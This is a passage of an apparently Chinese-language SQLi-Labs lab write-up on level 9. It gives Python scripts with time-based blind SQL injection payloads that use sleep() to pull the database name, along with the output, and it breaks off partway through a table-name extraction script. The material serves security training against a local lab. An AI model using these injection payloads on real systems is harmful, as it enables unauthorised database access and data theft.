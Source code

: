 ### §1.3.9 第9关 时间盲注（绕过`''`）

本题成功失败均无回显，而且无明显区分标志，故考虑使用时间盲注。

> 注意：受制于网络环境的通信质量，可能需要延长`SLEEP_TIME`参数，导致我们不得不延长程序爆破的时间。

爆数据库名：

```python
import requests
import time

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"
SLEEP_TIME = 0.5

def getBinarySearchResultByTime(url: str, paramRange: list[int], sleepTime: float)->int:
	......

databaseNameLength = getBinarySearchResultByTime(
    URL_PREFIX + "?id=1' and if(length(database()) > {}, sleep("+str(SLEEP_TIME)+"), 1)+ --+",
    [0,128],
    SLEEP_TIME
)
print("{}".format(databaseNameLength))

databaseName = ""
for i in range(1, databaseNameLength+1):
    databaseName += chr(getBinarySearchResultByTime(
        URL_PREFIX + "?id=1' and if(ascii(substr((select database())," + str(i) + ",1)) > {},sleep("+str(SLEEP_TIME)+"),1) --+",
        [0, 128],
        SLEEP_TIME
    ))
    print(databaseName)
```

```shell
C:\> python writeup.py
    8
    s
    se
    sec
    secu
    secur
    securi
    securit
    security
```

爆表名：

```python
import requests
import time

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"
SLEEP_TIME = 0.5

def getBinarySearchResultByTime(url: str, paramRange: list[int], sleepTime: float)->int:
	......

columnsName = ""
for i in range(1, MAX_FILED_LENGTH+1):
    columnsName += chr(getBinarySearchResultByTime(
```